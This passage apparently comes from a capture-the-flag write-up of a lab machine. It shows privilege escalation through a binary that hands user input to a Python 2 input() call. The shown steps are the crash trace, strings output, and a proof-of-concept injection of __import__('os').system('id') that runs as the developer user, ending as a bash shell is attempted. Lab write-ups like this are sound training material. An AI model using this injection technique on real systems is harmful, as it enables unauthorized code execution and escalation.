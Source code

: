     Enter URL here:



In fact, it even crashes the same:



    Enter URL here:http://10.10.14.6/test
    Traceback (most recent call last):
      File "/home/developer/dev/siteisup_test.py", line 3, in <module>
        url = input("Enter URL here:")
      File "<string>", line 1
        http://10.10.14.6/test
            ^
    SyntaxError: invalid syntax



Running `strings` on the application shows why:



    www-data@updown:/home/developer/dev$ strings -n 20 siteisup
    /lib64/ld-linux-x86-64.so.2
    _ITM_deregisterTMCloneTable
    _ITM_registerTMCloneTable
    Welcome to 'siteisup.htb' application
    /usr/bin/python /home/developer/dev/siteisup_test.py
    ...[snip]...



It's calling the python script from the application.

### Execution as developer

#### POC

Putting all that together, I just need to run the binary (which runs as
developer) and give it the Python code to run:



    www-data@updown:/home/developer/dev$ ./siteisup            
    Welcome to 'siteisup.htb' application

    Enter URL here:__import__('os').system('id')
    uid=1002(developer) gid=33(www-data) groups=33(www-data)
    Traceback (most recent call last):
    ...[snip]...



It worked!

#### Shell

I'll switch out `id` for `bash`:



    www-data@updown:/home/developer/dev$ ./siteisup
    Welcome to 'siteisup.htb' application
